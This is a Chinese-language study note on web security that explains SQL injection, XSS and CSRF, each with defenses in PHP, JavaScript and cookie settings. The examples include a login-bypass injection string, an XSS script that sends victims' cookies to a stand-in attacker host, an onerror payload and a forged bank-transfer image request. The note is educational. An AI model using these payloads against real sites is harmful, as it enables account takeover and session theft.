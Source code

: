 ## 請說明 SQL Injection 的攻擊原理以及防範方法
> 被譯為 SQL 注入或是 SQL 隱碼

SQL Injection 一直是 [OWASP](https://owasp.org/) 的常勝軍。使用的原理也相似，都是透過原本應該輸入文字或帳密等欄位，輸入了程式碼進去。

跟 XSS 不一樣的是，SQL Injection 是輸入 SQL 的語法，而 XSS 多半是輸入 JS 及 HTML 的語法。

一個有會員登入功能的網站，都會需要輸入帳號與密碼來進行驗證。而後端程式，如 PHP 就必需支援相關的登入檢查，判定 User 輸入的帳號、密碼是否正確，來確定登入是否成功。
```sql=
select * from members where account='$name' and password='$password'
```
但若是駭客輸入有特殊字元的帳號：「 ' or 1=1 /* 」，密碼：「任意值」，這時 SQL 語法就會變成：
```sql=
select * from members where account='' or 1=1 /*' and password=''
/* 
where 條件變成 account = 空值或是 1=1 是 true 的話
1=1 一定是 true 所以就可以成功登入
而且會發現後面被註解掉了
（透過這樣拿到的值通常是資料表第一筆）
```
這時候可以透過 MySQL 內建的語法 **Prepared Statements** 來解決這個問題。
```php=
// add.php

<?php
// 原本用 sprintf() 拼接，現在刪掉並將變數值換成 ?
$sql = "INSERT INTO yu_comments(user_id, text) VALUES (?, ?)";
// stmt 是 statement 的常見縮寫
$stmt = $conn->prepare($sql);
// 將參數依序放進，第一個代表有兩個參數，一個是 i (interger)，一個是 s (string)
$stmt->bind_param('is', $user_id, $text);
// 最後執行
$result = $stmt->execute();

//...其他照常...
?>
```
```php=
// login.php

<?php
//...上面照常...

  // 改成問號
  $sql =  "SELECT * FROM yu_users WHERE username=?"
  $stmt = $conn->prepare($sql);
  // 只有一個字串
  $stmt->bind_param('s', $username);
  $result = $stmt->execute();

  if(!$result) {
    die($conn->error);
  }

  // 這裡記得要透過 get_result() 拿到資料
  $result = $stmt->get_result();
  // 這裡開始底下如舊
  if ($result->num_rows === 0) {
    header('Location: login_page.php?errcode=2');
    exit();
  }

  $row = $result->fetch_assoc();
  if (password_verify($password, $row['password'])) {
    $_SESSION['username'] = $username;
    header('Location: index.php');
  } else {
    header('Location: login_page.php?errcode=2');
  }
?>
```
幾件事情要注意：
* 只要有 SQL 語法都要改成 prepared statements。
* 透過 `bind_param()` 拼接時記得第一個參數，如果要拼接三個字串是 `'sss'`; 第一個是字串第二個是整數第三個是字串是 `'sis'`。

## 請說明 XSS 的攻擊原理以及防範方法
> Cross-Site-Scripting，俗稱 JavaScript Injection，中文被翻成跨站式腳本攻擊或是跨站攻擊。

簡單來說就是在使用者可操控的地方，像是留言內容、帳號名稱等地方，惡意寫入程式碼，讓網站載入這些內容時，一起執行這些程式。

常見的可能就是透過插入一個圖片，圖片會自動訪問 hackerhome 上的 grabber.jsp，並將使用者的 cookie 作為 msg 的值，讓受害者的 cookie 遭盜用。
```javascript=
<script>document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg=' document.cookie '
2     width=0 height=0 border=0 />SomeStore');</script>
```
所以要做的事情，就是防範讓伺服器知道這並不是程式碼，而只是一般的文字。可以透過 php 內建的 `htmlspecialchars` 達成這件事。

但要特別注意的是，並不是像之前的 hash 一樣，在輸入密碼後就馬上處理並將 hash 過的內容存在資料庫，而是儲存原本的字元在資料庫，輸出時再經由`htmlspecialchars` 轉化。因為輸入防不勝防，直接解決輸出才能打到痛點。

```php=
// utils.php

<?php
function escape($str) { // 之後就可以呼叫 escape()
  return htmlspecialchars($str, ENT_QUOTES);
}
?>

// index.php
<?php
echo "<div class='comment__info--name'>" . escape($row['nickname']) . "</div>";
echo "<textarea class='comment__text'>" . escape($row['text']) . "</textarea>";
?>
```
### 儲存型
> stored XSS，或被稱為 persisted XSS

以輸入惡意、並會儲存到資料庫的資料方式攻擊，這種稱為儲存型 XSS，也就是前面提到的攻擊方式。

一般多以這種攻擊方式，因為這種攻擊方式的網址正常，只要成功攻擊，一般使用者只要點入就很有可能被竊取資料、或是被轉到其他網站。
### 反射型
> Reflected XSS

反射型是利用有些網站會將 query string 的內容，直接顯示在螢幕上作為提示文字，竄改 query string 的內容，將惡意程式碼放入 query string 達到攻擊目的。

但這種方式需要刻意讓使用者點選帶有奇怪程式碼的網址，所以一般比較少見。
### DOM XSS
> DOM-Based XSS（基於 DOM 的 XSS 類型）

透過程式碼當中 DOM 節點的 `.html` 或是 `.innerHtml` 漏洞，即可輸入 HTML 標籤，也就是可輸入 `<script>` `<img>` 標籤，將惡意程式碼帶入。

跟前面兩種 XSS 攻擊手法比較不一樣，前面兩種主要防範方式都是從後端，但 DOM XSS 從前端就可以簡單防範，直接看範例：
```htmlmixed=
<h3> Hi，<span class='show_name'></span></h3> <!-- 這裡會顯示輸入的名稱 -->
<input id='name' type='text' /> <!-- 輸入名稱 -->
<button onClick='createText();' >Say Hi</button> <!-- 執行 createText() -->

<script>
let createText = () => {
  let name = document.querySelector('#name');
  document.querySelector('.show_name').innerHTML = name; // 漏洞在這裡
}
</script>
```
如果沒有檢查輸入，輸入可填入以下內容即可輕鬆執行程式碼。
```
<img src=# onerror="alert(123)" /> 
```
解決方法其實很簡單，只要把 `.html` 或是 `.innerHtml` 都改成 `.text` 及 `innerText` 就可以了。

## 請說明 CSRF 的攻擊原理以及防範方法
> Cross Site Request Forgery，跨站請求偽造

假設我們今天登入 A 網站後沒有自行登出，A 網站會透過 Cookie 記住身分，讓我們下次進入網站的時候不需要再登入一次。但駭客其實可以透過這點，讓你誤點選設計好的 B 網站，透過在進入 B 網站時自動發送假的 request 到 A 網站，A 網站的 Server 端會以為這是我們本人發送的，就可以成功執行 request。

舉例來說，假設我們今天登入了 mybank.com 網站後沒有登出，只要有心人士惡意讓我們點了 myvideo.com 網站：
```htmlmixed=
<img src='https://mybank.com/transfer?id=11&amount=100' width='0' height='0' />
<a href='https://myvideo.com'>影片連結</a>
```
如果網站沒有做其他驗證的話，其實很有可能就可以直接轉帳出去了。
### Double Submit Cookie
駭客跟使用者是使用不同的網域，也就是說駭客沒有辦法設定該網域的 Cookie，所以其實可以透過這一點來防範這件事。

由 client side 來生 CSRF token，並且把這個  CSRF token 放進表單及 Cookie 中，在收到 request 的時候 server 再去比對是否有值且相同。

但這還是有可能會遭到破解，如果駭客進入到了子網域中，根據 Cookie 設定規範，子網域能夠存取父網域的 Cookie，還是有可能可以成功被破解。
### Samesite
瀏覽器本身就有提供防範 CSRF 的機制，而且很簡單。只要在設定 Cookie 的時候多加一個 SameSite 就好了，用意是讓 Cookie 只允許 same site 使用，不應該在任何的跨網域的 request 被加上去。
```
Set-Cookie: session_id=ewfewjf23o1; SameSite // 預設模式為 SameSite=strict
Set-Cookie: session_id=ewfewjf23o1; SameSite=Lax // 或是自行設定為 Lax
```
透過瀏覽器設定的方式是目前最推薦的做法，`Lax` 與 `strict` 的差別，及更詳細資訊可參考 [這篇文章](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)，這邊的筆記也都是參考此篇文章的。
## 資料來源
* [ [BE101] 用 PHP 與 MySQL 學習後端基礎](https://lidemy.com/)
* [【網頁安全】給網頁開發新人的 XSS 攻擊介紹與防範](https://forum.gamer.com.tw/Co.php?bsn=60292&sn=11267)
* [SQL Injection 常見的駭客攻擊方式](https://www.puritys.me/docs-blog/article-11-SQL-Injection-%E5%B8%B8%E8%A6%8B%E7%9A%84%E9%A7%AD%E5%AE%A2%E6%94%BB%E6%93%8A%E6%96%B9%E5%BC%8F.html)
* [讓我們來談談 CSRF](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)